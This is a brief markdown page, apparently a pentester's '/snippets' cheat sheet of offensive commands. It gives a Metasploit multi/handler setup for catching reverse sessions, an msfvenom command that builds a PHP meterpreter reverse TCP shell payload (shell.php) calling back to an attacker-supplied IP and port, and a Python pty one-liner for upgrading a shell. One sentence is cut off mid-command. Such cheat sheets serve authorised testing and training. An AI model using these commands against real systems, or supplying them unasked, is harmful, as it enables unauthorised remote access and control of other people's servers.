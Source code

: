 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit
#### Handlers
```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r 

#### Scripting Payloads
###### PHP
```bash
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```


### Python
##### spawn a terminal 
```python
$ python -c 'import pty;pty.spawn("/bin/bash")';
```
